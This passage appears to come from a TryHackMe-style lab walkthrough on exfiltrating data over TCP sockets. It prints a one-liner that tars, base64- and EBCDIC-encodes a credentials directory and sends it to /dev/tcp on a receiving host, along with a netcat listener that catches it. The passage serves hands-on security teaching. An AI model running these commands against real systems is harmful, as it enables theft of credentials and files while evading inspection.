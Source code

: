We can also connect directly from the AttackBox using port 2022 as follows,

```markup
root@AttackBox$ ssh thm@10.10.39.16 -p 2022
```

We have the required data ready to be transmitted on the victim machine. In this case, we have a sample file with a couple of credentials.

Checking the creds.txt file on the victim machine

```markup
thm@victim1:~$ cat task4/creds.txt
admin:password
Admin:123456
root:toor
```

Now that we have the credential text file, we will use the TCP socket to exfiltrate it. **Make sure the listener is running on the JumpBox**.

Exfiltrate Data overTCPSocket from the victim machine!

```markup
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
0+1 records in
0+1 records out
260 bytes copied, 9.8717e-05 s, 2.6 MB/s
```

Let's break down the previous command and explain it:

1. We used the tar command to create an archive file with the zcf arguments of the content of the secret directory.
2. The z is for using gzip to compress the selected folder, the c is for creating a new archive, and the f is for using an archive file.
3. We then passed the created tar file to the base64 command for converting it to base64 representation.
4. Then, we passed the result of the base64 command to create and copy a backup file with the dd command using EBCDIC encoding data.
5. Finally, we redirect the dd command's output to transfer it using the TCP socket on the specified IP and port, which in this case, port 8080.

Note that we used the Base64 and EBCDIC encoding to protect the data during the exfiltration. If someone inspects the traffic, it would be in a non-human readable format and wouldn't reveal the transmitted file type.

Once we hit enter, we should receive the encoded data in the /tmp/ directory.

Checking the received data on the JumpBox&#x20;

```markup
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
Connection from 192.168.0.101 received!

thm@jump-box$ ls -l /tmp/
-rw-r--r-- 1 root root       240 Apr  8 11:37 task4-creds.data
```
